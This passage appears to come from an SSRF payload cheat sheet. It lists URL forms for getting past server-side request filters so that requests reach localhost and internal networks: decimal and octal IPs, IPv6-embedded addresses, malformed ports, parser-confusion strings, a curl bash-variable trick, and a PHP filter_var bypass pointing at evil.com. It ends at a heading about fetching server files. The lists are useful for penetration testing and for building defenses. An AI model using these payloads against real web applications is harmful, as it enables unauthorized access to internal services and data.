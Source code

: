     http://127.127.127.127
    http://127.0.1.3
    http://127.0.0.0
### Bypass using a decimal IP location
    http://0177.0.0.1/
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
### Bypass using IPv6/IPv4 Address Embedding
[IPv6/IPv4 Address Embedding](https://pravinponnusamy.medium.com/ssrf-payloads-f09b2a86a8b4)

    http://[0:0:0:0:0:ffff:127.0.0.1]
### Bypass using malformed urls
    localhost:+11211aaa
    localhost:00011211aaaa
### Bypass using rare address
You can short-hand IP addresses by dropping the zeros

    http://0/
    http://127.1
    http://127.0.1
### Bypass using bash variables
(curl only)

    curl -v "http://evil$google.com"
    $google = ""
### Bypass using tricks combination
    http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
    urllib2 : 1.1.1.1
    requests + browsers : 2.2.2.2
    urllib : 3.3.3.3
### Bypass filter_var() php function
    0://evil.com:80;http://google.com:80/
### Bypass against a weak parser
by Orange Tsai [Blackhat A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-

    http://127.1.1.1:80\@127.2.2.2:80/
    http://127.1.1.1:80\@@127.2.2.2:80/
    http://127.1.1.1:80:\@@127.2.2.2:80/
    http://127.1.1.1:80#\@127.2.2.2:80/
![](https://miro.medium.com/v2/resize:fit:786/format:webp/0*-KVN7nFJtyFpJLf8)
### SSRF exploitation via URL Scheme
### File
Allows an attacker to fetch the content of a file on the server
